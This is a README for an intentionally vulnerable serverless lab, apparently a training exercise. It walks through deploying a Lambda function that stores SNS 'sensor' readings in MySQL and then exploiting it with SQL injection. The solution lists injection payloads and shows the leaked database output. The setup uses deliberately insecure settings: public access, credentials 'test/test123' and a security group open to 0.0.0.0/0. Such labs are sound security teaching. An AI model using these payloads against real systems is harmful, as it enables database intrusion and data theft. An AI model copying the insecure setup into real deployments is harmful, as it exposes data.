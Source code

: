 ## Function Event Data Injection - SQL Injection

In this damn vulnerable function, you will perform a SQL Injection attack through a SNS Notification Event.

While the attack vector is SQL Injection, the attack is typically called `Event Data Injection`, where vulnerabilities in a function are triggered by events from sources like:
* SNS Notifications
* Queue Message Notification
* S3 Event Notifications, etc

In this example, a sensor which is simulated by [payload_generator.py](mqtt_rds_sql_event_injection/payload_generator.py)
publishes messages to our Lambda Function. The function, collects this reading and stores this info in a Database.

The message is published as a JSON message with the `reading` key. Example: `{"reading": "40.0"}`
The reading is captured by the Lambda function and stored in a MySQL Database

Our objective is to exploit this event by triggering a vulnerability in the Lambda Function, in this case, a SQL Injection flaw

### Setup - Database
* Create an RDS Database instance in your AWS Account
```
    aws rds create-db-instance \
        --db-instance-identifier SensorDB \
        --db-instance-class db.t2.micro \
        --engine MySQL \
        --port 3306 \
        --allocated-storage 20 \
        --db-name sensordb \
        --master-username test \
        --master-user-password test123 \
        --db-subnet-group-name some-db-subnet \
        --publicly-accessible
```
**Sometimes you will need to create two subnets in different AZs and allocate them to the RDS Subnet group prior to this, for this to work**

* Get Security Group IDs

        aws rds describe-db-instances | jq ".DBInstances[].VpcSecurityGroups[].VpcSecurityGroupId"

* Add inbound rule to the security group

        aws ec2 authorize-security-group-ingress --group-id <group-id> --protocol all --port 3006 --cidr 0.0.0.0/0

* Get Database instance ID

        aws rds describe-db-instances | jq ".DBInstances[0].Endpoint.Address"

* Use MySQL Client (CLI) or some GUI to create the required tables, etc.

```
mysql -h <instance id> -P 3306 -u test -ptest123
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 14
Server version: 5.6.40-log Source distribution

Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use sensordb
Database changed
mysql> CREATE TABLE sensor_temperature(id int NOT NULL AUTO_INCREMENT, sensor_name VARCHAR(100), temperature VARCHAR(200), PRIMARY KEY(id));
Query OK, 0 rows affected (0.60 sec)
```

* Generate a SNS Topic with `aws sns create-topic --name my-topic`

    ```
    {
        "ResponseMetadata": {
            "RequestId": "1469e8d7-1642-564e-b85d-a19b4b341f83"
        },
        "TopicArn": "arn:aws:sns:us-west-2:0123456789012:my-topic"
    }
    ```

### Setup - Lambda Function
* Goto `mqtt_rds_sql_event_injection\sqli\.chalice`
* Edit `config.json` to include the following:

```
"environment_variables": {
        "DB_HOST": "<instance id>",
        "DB_USER": "test",
        "DB_PASS": "test123",
        "DB_DB": "sensordb"
        "SNS_TOPIC": "<topic ARN>"
}
```
This will inject the required ENVVARs into the Lambda function at runtime

* go back to the `sqli` directory and run `chalice deploy`

### Solution

This is a slightly unconventional SQL Injection attack, in that, its triggered on an INSERT statement.

The SQLi can be triggered by tampering with the "reading" from the "sensor", you can trigger a SQL Injection attack on the INSERT Statement.

You can leverage mysql functions, global variables, etc for the attack

In the [payload_generator.py](mqtt_rds_sql_event_injection/payload_generator.py) file, you can change the reading with different SQL Injection payloads, like:
* `(SELECT @@datadir)`
* `(SELECT user())`
* `(SELECT CURRENT_USER())`
* `(SELECT DATABASE())`
* `(SELECT @@version)`
* `(SELECT ENCRYPT('password'))`

These will send SNS messages with the SQL Injection payloads, which our vulnerable function will read, process and insert into the Database.

if you run a `select * from sensor_temperature` on your mysql database, you will see output like this:

```
mysql> select * from sensor_temperature;
+----+--------------------------------------+-------------------------------------------------+
| id | sensor_name                          | temperature                                     |
+----+--------------------------------------+-------------------------------------------------+
|  1 | b2177d1c-8d5c-4f25-aa28-fde9f798ad36 | 5.6.40-log                                      |
|  2 | 39e00bb1-1ad5-42a0-b245-3e0cfd2a73ad | master@ec2-54-85-141-53.compute-1.amazonaws.com |
|  3 | 84f306bd-25e0-4703-a2ff-26c3aa7c56d3 | sensordb                                        |
|  4 | 854673c2-cff0-42ee-aa81-84a2b7203b59 | 6kPgJ56CFBaq6                                   |
+----+--------------------------------------+-------------------------------------------------+
4 rows in set (0.40 sec)
```